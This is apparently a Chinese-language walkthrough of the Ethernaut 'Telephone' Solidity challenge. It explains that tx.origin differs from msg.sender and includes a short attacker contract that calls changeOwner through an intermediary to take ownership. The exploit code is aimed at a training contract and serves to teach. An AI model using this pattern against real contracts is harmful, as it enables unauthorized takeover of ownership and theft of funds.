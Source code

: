 # Level4 Telephone
--
这题主要考的就是tx.origin和msg.sender的区别了，在于msg.sender是函数的直接调用方，可能是你手工调用该函数，这时候是发起该交易的账户地址，也可以是调用该函数的一个智能合约的地址。但tx.origin一定只能是这个交易的原始发起方，无论中间有多少次合约内/跨合约函数调用，一定是账户地址而不是合约地址。因此只要写合约调用changeOwner即可，这时msg.sender是你写的智能合约地址，tx.origin是你的账户地址

```js
pragma solidity ^0.4.24;

contract Telephone {
  function changeOwner(address _owner) public;
}

contract Telephoner {
    Telephone tel;
    constructor (address _instance) public {
        tel = Telephone(_instance);
    }
    
    function makeACall() public {
        tel.changeOwner(tx.origin);
    }
}
```